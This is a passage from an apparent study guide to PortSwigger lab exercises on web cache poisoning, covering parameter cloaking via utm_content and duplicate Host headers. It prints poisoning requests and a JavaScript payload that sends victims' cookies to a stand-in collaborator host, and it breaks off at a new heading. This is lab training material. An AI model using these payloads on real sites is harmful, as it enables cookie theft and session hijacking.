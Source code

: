>Param Miner extension doing a `Bulk scan > Rails parameter cloaking scan` will ***identify*** the vulnerability automatically. Manually it can be identified by adding `;` to append another parameter to `utm_content`, the cache treats this as a single parameter. This means that the extra parameter is also excluded from the cache key.  
>The `source code` for `/js/geolocate.js?callback=setCountryCookie` is called on every page and execute callback function.  

>The `callback` parameter is keyed, and thus cannot poison cache for victim user, but by combine duplicate parameter with `utm_content` it then excluded and cache can be poisoned.  

```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=fuzzer;callback=EVILFunction
```  

![utm_content cache cloaking](images/utm_content_cloaking.png)  

>Cache Cloaking Cookie Capturing payload below, keep poising cache until victim hits stored cache.  

```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=fuzzer;callback=document.location='https://COLLABORATOR.com?nuts='%2bdocument.cookie%3b HTTP/2
```  

>Below is [Url Decoded](https://www.urldecoder.org/) payload.  

```
GET/js/geolocate.js?callback=setCountryCookie&utm_content=fuzzer;callback=document.location='https://COLLABORATOR.com?nuts='+document.cookie; HTTP/2
```  

[PortSwigger Lab: Parameter cloaking](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-param-cloaking)  
  
### Poison ambiguous request  

>Adding a second **Host** header with an exploit server, this ***identify*** a ambiguous cache vulnerability and routing your request. Notice that the exploit server in second **Host** header is reflected in an absolute URL used to import a script from ```/resources/js/tracking.js```. 

```html
Host: TARGET.net
Host: exploit.net
```

>On the exploit server set a file as same path target calls to ```/resources/js/tracking.js```, this will contain the payload. Place the JavaScript payload code below to perform a cookie stealer.  

```
document.location='https://Collaborator.com/?CacheCookies='+document.cookie;
```  

![Ambiguous Hosts](images/ambiguous-hosts.png)  

[PortSwigger Lab: Web cache poisoning via ambiguous requests](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-web-cache-poisoning-via-ambiguous-requests)  

### Cache Poison multiple headers  
